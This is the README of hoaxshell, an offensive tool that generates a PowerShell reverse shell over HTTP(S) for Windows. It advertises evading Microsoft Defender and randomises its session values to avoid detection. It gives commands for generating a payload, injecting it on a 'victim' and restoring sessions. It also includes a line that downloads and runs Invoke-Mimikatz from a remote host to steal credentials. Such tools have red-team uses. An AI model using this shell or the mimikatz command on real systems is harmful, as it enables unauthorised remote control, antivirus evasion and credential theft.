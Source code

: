 # hoaxshell

[![Python 3.x](https://img.shields.io/badge/python-3.x-yellow.svg)](https://www.python.org/) 
<img src="https://img.shields.io/badge/powershell-%E2%89%A5%20v3.0-blue">
[![License](https://img.shields.io/badge/license-BSD-red.svg)](https://github.com/t3l3machus/hoaxshell/blob/main/LICENSE.md)
<img src="https://img.shields.io/badge/Maintained%3F-Yes-96c40f">
## Purpose

hoaxshell is an unconventional Windows reverse shell, currently undetected by Microsoft Defender and possibly other AV solutions as it is solely based on http(s) traffic. The tool is easy to use, it generates it's own PowerShell payload and it supports encryption (ssl).  
  
So far, it has been tested on fully updated **Windows 11 Enterprise** and **Windows 10 Pro** boxes (see video and screenshots).
  
### Video Presentation  
https://www.youtube.com/watch?v=SEufgD5UxdU

## Screenshots
![usage_example_png](https://raw.github.com/t3l3machus/hoaxshell/master/screenshots/hoaxshell-win11-v2.png)
  
Find more screenshots [here](screenshots/).

## Installation
```
git clone https://github.com/t3l3machus/hoaxshell
cd ./hoaxshell
sudo pip3 install -r requirements.txt
chmod +x hoaxshell.py
```

## Usage
**Important**: As a means of avoiding detection, hoaxshell is automatically generating random values for the session id, URL paths and name of a custom http header utilized in the process, every time the script is started. The generated payload will work only for the instance it was generated for. Use the `-g` option to bypass this behaviour and re-establish an active session or reuse a past generated payload with a new instance of hoaxshell. 

#### Basic shell session over http
```
sudo python3 hoaxshell.py -s <your_ip>
```  
When you run hoaxshell, it will generate its own PowerShell payload for you to copy and inject on the victim. By default, the payload is base64 encoded for convenience. If you need the payload raw, execute the "rawpayload" prompt command or start hoaxshell with the `-r` argument. After the payload has been executed on the victim, you'll be able to run PowerShell commands against it.

#### Encrypted shell session (https):
```
# Generate self-signed certificate automatically:
sudo python3 hoaxshell.py -s <your_ip> --ssl

-------------------------------------------------

# Generate self-signed certificate manually:
openssl req -x509 -newkey rsa:2048 -keyout key.pem -out cert.pem -days 365

# Pass the cert.pem and key.pem as arguments:
sudo python3 hoaxshell.py -s <your_ip> -c </path/to/cert.pem> -k <path/to/key.pem>

```  
The generated PowerShell payload will be longer in length because of an additional block of code that disables the ssl certificate validation.

#### Grab session mode
In case you close your terminal accidentally, have a power outage or something, you can start hoaxshell in grab session mode, it will attempt to re-establish a session, given that the payload is still running on the victim machine.
```
sudo python3 hoaxshell.py -s <your_ip> -g
```  
**Important**: Make sure to start hoaxshell with the same settings as the session you are trying to restore (http/https, port, etc).

## Limitations
The shell is going to hang if you execute a command that initiates an interactive session. Example:  
```
# this command will execute succesfully and you will have no problem: 
> powershell echo 'This is a test'

# But this one will open an interactive session within the hoaxshell session and is going to cause the shell to hang:
> powershell

# In the same manner, you won't have a problem executing this:
> cmd /c dir /a

# But this will cause your hoaxshell to hang:
> cmd.exe
```  

So, if you for example would like to run mimikatz throught hoaxshell you would need to invoke the commands:
```
hoaxshell > IEX(New-Object Net.WebClient).DownloadString('http://192.168.0.13:4443/Invoke-Mimikatz.ps1');Invoke-Mimikatz -Command '"PRIVILEGE::Debug"'
```
Long story short, you have to be careful to not run an exe or cmd that starts an interactive session within the hoaxshell powershell context.

## Future
I am currently working on some auxiliary-type prompt commands to automate parts of host enumeration.
